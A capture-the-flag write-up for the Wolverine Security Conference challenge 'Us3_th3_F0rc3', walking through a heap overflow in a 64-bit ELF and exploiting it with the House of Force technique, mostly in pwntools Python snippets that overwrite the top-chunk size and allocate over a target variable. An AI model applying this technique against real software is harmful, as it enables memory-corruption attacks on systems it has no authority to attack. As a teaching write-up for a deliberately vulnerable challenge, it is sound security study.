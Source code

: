# Wolverine Security Conference/CTF - Us3_th3_F0rc3

Original challenge link: https://ctf.wolvseccon.org/challenges#Us3_th3_F0rc3-49

You can also download challenge file in my repo: [Us3_th3_F0rc3.tar.gz](Us3_th3_F0rc3.tar.gz)

Download the tar file, extract it and let's start!

# 1. Find bug

First, we will use `file` and `checksec` to check for basic information:

```bash
$ file force0
force0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ad4116e8666c5ef497fcc3d643c84c7643651bda, with debug_info, not stripped

$ checksec force0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    b'./glibc_2.28_no-tcache/'
```

This is a 64-bit file without being stripped and all the defences are on except the PIE. Next, we will read the given source code to know how it works.

We can see there is a function called print_flag() and it will print the flag for us. In main, we can see at the end is the comparation:

```c
if (!strcmp(TARGET, "I DID!")) {
    print_flag();
}
```

And if we can change `TARGET`, we will get the flag. 

Overall, we can just malloc() and cannot free(). In the first option, it will read size from user input, then malloc with that size. 

Then it will read data from user with the usable size plus 8, which means we can overwrite the metadata of the next chunk --> **Heap Overflow**

Finally, as the title of chall hinted, we will use a technique called `House of Force` for this chall. That's all we can find, let's move on!

# 2. Brainstorming

As we know, we will use the technique called `House of Force`, which you can view on this original site [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c) or in my technique repo [here](#)

And this is the original `House of Force` so just view 2 sites above and you will know how to conduct this technique.

# 3. Exploit

First, the program print out the address of heap and `TARGET` so let's get them:

```python
heap = int(p.recvline()[:-1].split(b' @')[1], 16)
target = int(p.recvline()[:-1].split(b' @')[1], 16)
```

Next we will malloc a chunk first and overwrite the topchunk size into `0xffffffffffffffff`:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{0x10}'.encode())
payload = b'A'*0x18
payload += p64(0xffffffffffffffff)
p.sendlineafter(b'Data: ', payload)
```

And the topchunk size is changed:

![change-topchunk-size.png](images/change-topchunk-size.png)

Now, we will need to calculate the size to malloc. For this technique, we will abuse the **Integer overflow** of the topchunk so that when we malloc with the appropriate size, the topchunk will has the address same with address of `TARGET`. 

For an easy way to understand, I will demonstrate it below:

```python
>>> topchunk = 0x0000000000405030         # Without metadata
>>> TARGET = 0x0000000000404010           # We want topchunk + request_size = TARGET - 0x10
>>> hex(topchunk + 0xffffffffffffefd0)
'0x10000000000404000'                     # Include metadata of topchunk
```

So the size we want to malloc is `0xffffffffffffefd0`, and the result we have is `0x10000000000404000` (9 bytes in total with the most significant byte is `0x1`). But topchunk address is just 64-bit size so that most significant byte will be removed. 

That means after `malloc(0xffffffffffffefd0)`, the topchunk address will be `0x404000` (include metadata so the address to write is `0x404010`)

So with the heap address, we can calculate topchunk address. Hence, calculate the size we want to malloc:

```python
TARGET = TARGET | 0x10000000000000000        # We want integer overflow so 0x1 will be remove
# topchunk + request_size = TARGET - 0x10    # 
request_size = TARGET - 0x10 - topchunk      # 
```

So python script snippet is:

```python
topchunk = heap + 0x20 + 0x10
target = target | 0x10000000000000000
request_size = target - 0x10 - topchunk
print("Old topchunk (without metadata): " + hex(topchunk))
print("Size to malloc: " + hex(request_size))
print("New topchunk (with metadata): " + hex(topchunk + request_size))
```

And let's malloc it again with that size:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{request_size}'.encode())
p.sendlineafter(b'Data: ', b'B'*8)
```

Let's check in gdb. This is the topchunk before the malloc with large size:

![old-topchunk.png](images/old-topchunk.png)

Look at the size to malloc:

![malloc-big-size.png](images/malloc-big-size.png)

And we can get the 64-bit address for new topchunk (**Integer Overflow** so `0x1` is removed):

![new-topchunk.png](images/new-topchunk.png)

So let's make it malloc and check again:

![after-malloc.png](images/after-malloc.png)

So now new topchunk is at 0x404000. Let's malloc again and this chunk will be `TARGET` address:

![rax.png](images/rax.png)

This is the return pointer to chunk just after malloc. So we just simply put the string `I DID!\x00` to it and we got the flag:

```python
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', f'{0x20}'.encode())
p.sendlineafter(b'Data: ', b'I DID!\x00')
```

Full code: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `wsc{S0_Y0U_L34Rn3d_tH3_F0RCE?}`